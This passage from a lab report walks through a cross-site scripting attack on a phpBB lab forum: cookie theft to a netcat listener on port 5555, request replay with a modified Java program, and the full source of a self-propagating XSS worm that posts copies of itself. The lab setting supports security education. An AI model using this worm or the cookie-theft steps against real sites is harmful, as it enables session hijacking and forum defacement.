When a user logs in legitimately, they are issued with a cookie which they then send to the server with every HTTP POST
request to authorise themselves. The attacker can make a post containing the malicious script given in the question, and
whenever a user's browser views this post, it executes the javascript. The particular piece of javascript given in the
question connects to the attacker on port 5555, and attempts to retrieve an image from him. The URL contains a query
string which is designed to set the variable {\tt c} in any PHP running on the attacker's host to a particular value.
This particular value just happens to be the user's cookie. With the BASH command {\tt nc -l -p 5555}, the attacker can
listen for any incoming data, decode it, and print it to the terminal. By adding a little more to the script, various
other pieces of information like the user's pseudonym can be recovered, and the incoming packets can be sniffed to give
their IP address for spoofing. This allows the attacker to choose who he's impersonating if, for instance, he wants to
pose as the administrator.

Once the cookie has been acquired, Wireshark can be used to carve out the exact details of the requisite HTTP POST
requests for submitting replies and threads to the forum. By inspecting the contents of a validly made request, we can
modify the provided Java program to submit the correct packet. The server will only accept a cookie if it originates
from the same IP address as the legitimate login, presumably by encoding a hash of the original address somewhere
within, so for this attack the malicious requests were sent from the same computer as the legitimate login. In a
real-world attack, it would be feasible to spoof the sender IP addresses on these packets instead.

\lstinputlisting{./HTTPSimpleForce.java}

\subsection{The Sunshine and Rainbows Worm}

Browsers are arbitrary code execution platforms. An attacker can write some javascript to essentially perform the same
task as the Java from the previous stage, which will then send packets from the victim's computer to the server, meaning
that spoofed packets are no longer necessary. This can cause an innocent forum user viewing a malicious thread to
immediately create a new thread, without their knowledge. The specific malicious code is as follows:

\begin{lstlisting}[caption=A human-readable version of the Sunshine and Rainbows worm]
//Place a giant image in the post, so we're not just posting nothing
<img src=http://i.imgur.com/B4kPQ.jpg>

//Define the worm
<script id=sunshineAndRainbows>
    //Grab all the user's cookies
    var cookies=document.cookie.split(';');
    var sid_cookie=null;
    //Search through the array of cookies for the one that contains "phpbb2mysql_sid"
    //Note that we need to use i=i-(-1) here since + symbols aren't allowed
    for(i=0;i<cookies.length;i=i-(-1)){
        //When we find it, slice of the start. The rest of the string will be
        //the cookie we need
        if(cookies[i].match("phpbb2mysql_sid")) sid_cookie=cookies[i].slice(13)
    };
    //Grab the payload from the current web page
    var payload=document.getElementById("sunshineAndRainbows").innerHTML;
    var Ajax=null;

    //Build the HTTP Request to match the contents of a genuine posting request
    Ajax=new XMLHttpRequest();
    Ajax.open("POST","http://www.xsslabphpbb.com/posting.php",true);
    Ajax.setRequestHeader("Host","www.xsslabphpbb.com");
    Ajax.setRequestHeader("Keep-Alive","300");
    Ajax.setRequestHeader("Connection","keep-alive");
    Ajax.setRequestHeader("Cookie",document.cookie);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

    //Set the content to be a request to create a new thread
    var content="".concat(
        "subject=XSSWorm",//The subject of the new thread
        "&message=%3Cimg src=http://i.imgur.com/B4kPQ.jpg%3E",//The aforementioned giant image
        "%3Cscript id=sunshineAndRainbows%3E",escape(payload),"%3C%2Fscript%3E",//The self-replicating part of the virus
        "&mode=newtopic&f=1&",sid_cookie,"&post=Submit"); //Submit this as a request for a new thread in subforum 1

    //And here we go...
    Ajax.send(content);
</script>
\end{lstlisting}

\begin{figure}[h]
    \centering
    
\includegraphics[width=.8\linewidth]{images/sunshine_and_rainbows.png}
    \caption{The malicious post made to the forum, infecting it with the worm}
\end{figure}

This code will steal the user's cookie, and submit a request to the server to create a new thread containing exactly the
worm itself -- working under the assumption that no other element on the page bears the id ``sunshineAndRainbows". This
quickly floods the forum with meaningless posts, rendering it mostly unusable. An admin opening the thread to attempt to
delete it will find that their browser immediately executes the javascript, creating a new thread. Though in this
particular case the only result is a defacement of the website, such an attack could be used to download malicious files
to a user's computer, redirect users to other websites, delete user accounts whenever they view the thread, or wreak any
other form of havoc.

\begin{figure}[h]
    \centering
    
\includegraphics[width=.8\linewidth]{images/xss_victory.png}
    \caption{The result of an infected thread being repeatedly viewed}
\end{figure}

